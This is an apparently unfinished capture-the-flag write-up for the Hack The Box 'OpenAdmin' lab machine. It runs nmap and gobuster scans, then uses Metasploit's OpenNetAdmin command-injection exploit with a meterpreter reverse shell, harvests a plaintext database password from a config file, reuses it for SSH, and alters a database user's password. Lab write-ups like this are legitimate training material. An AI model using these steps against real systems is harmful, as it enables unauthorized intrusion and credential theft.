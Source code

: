 
# OpenAdmin <!-- omit in toc -->

# Table of Contents <!-- omit in toc -->
- [Scan Results](#scan-results)
  - [Nmap](#nmap)
    - [Ports](#ports)
  - [Directories](#directories)
- [Recon](#recon)
- [Expolit](#expolit)
    - [Metasploit:](#metasploit)
- [Post Exploit](#post-exploit)
- [Flags](#flags)
    - [User Flag](#user-flag)
    - [Root Flag](#root-flag)

# Scan Results

## Nmap
```
# Nmap 7.80 scan initiated Wed Mar 11 12:59:27 2020 as: nmap -sV -sC -oA ./Documents/HackTheBox/OpenAdmin/Scans/nmap 10.10.10.171
Nmap scan report for 10.10.10.171
Host is up (0.087s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Mar 11 12:59:38 2020 -- 1 IP address (1 host up) scanned in 11.27 seconds
```
### Ports
* 22 - ssh
* 80 - http

## Directories
```
root@kali:~# gobuster dir -u 10.10.10.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.171
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/03/11 13:05:20 Starting gobuster
===============================================================
/music (Status: 301)
/artwork (Status: 301)
/sierra (Status: 301)
/server-status (Status: 403)
===============================================================
2020/03/11 13:38:25 Finished
===============================================================
```
# Recon

# Expolit

### Metasploit:

1. open metasploit using: `msfconsole`
2. search for opennetadmin
3. use `exploit/unix/webapp/opennetadmin_ping_cmd_injection`
4. set payload to `linux/x64/meterpreter/reverse_tcp)`
5. set `RHOSTS` and `LHOSTS`


there are 2 users on the machine: jimmy, joanna

using the docs we can see how to install.
logs are created at: /var/log/ona.log
config: /opt/ona/www/local/config

Go to the config folder there we see 3 files:
```
meterpreter > ls
Listing: /opt/ona/www/local/config
==================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  426   fil   2019-11-22 17:18:18 +0000  database_settings.inc.php
100664/rw-rw-r--  1201  fil   2019-11-22 17:18:18 +0000  motd.txt.example
100644/rw-r--r--  0     fil   2019-11-22 17:18:18 +0000  run_installer

```

cat the database_settings file:
```
meterpreter > cat database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
?>
```

we found the database login info.

ssh as jimmy using the database password
```
ssh jimmy@10.10.10.171
```

and now connect to the mysql database using:
```
mysql -u ona_sys -p
```

when asked for password, enter the password we found above.
commands:
```
show databases;
use [database name];
show tables;
select * from [table];
show columns from [table];
update users set password = 'admin' where id =2;
```

# Post Exploit

# Flags

### User Flag

### Root Flag

